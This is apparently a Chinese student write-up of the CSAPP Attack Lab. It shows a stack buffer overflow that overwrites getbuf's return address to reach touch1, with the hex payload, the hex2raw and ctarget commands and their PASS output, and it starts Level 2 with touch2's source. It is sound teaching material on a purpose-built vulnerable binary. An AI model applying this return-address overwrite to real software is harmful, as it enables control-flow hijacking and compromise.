此时栈帧：test函数向下分配了8字节，getbuf向下分配了40字节

![img](Attack Lab.assets/v2-9e19115f23c54a7c17750ec393c11301_1440w.jpg)

所以思路就已经明朗了，我们需要填满get buf的40个字节的空间，然后在第41个字节位置处注入touch1函数的函数地址，就能让getbuf直接返回调用touch1

**即我们的输入需要是40字节+touch1函数的起始地址，就能成功完成注入**

找到touch1函数的起始地址`0x00000000004017c0`

编写level.txt文件，注意x86小端序--低位的在低地址，注意顺序问题

注意hex2raw要求格式，每一行8个字节，每个字节用空格隔开，每个字节用16进制表示

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 
```

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level1.txt>level
lyjy@Lenovo:~/CSAPP/attacklab$ ./ctarget -q -i level
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 
```

成功了

这里卡了好久，原因不是编写的不对，而是./hex2raw < level1.txt | ./ctarget -q管道方式的问题

**懒得去思考为啥管道方式为什么运行不成功的问题了，只需要知道这种方式用不了即可**



### Level2

touch2文件：

```c
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
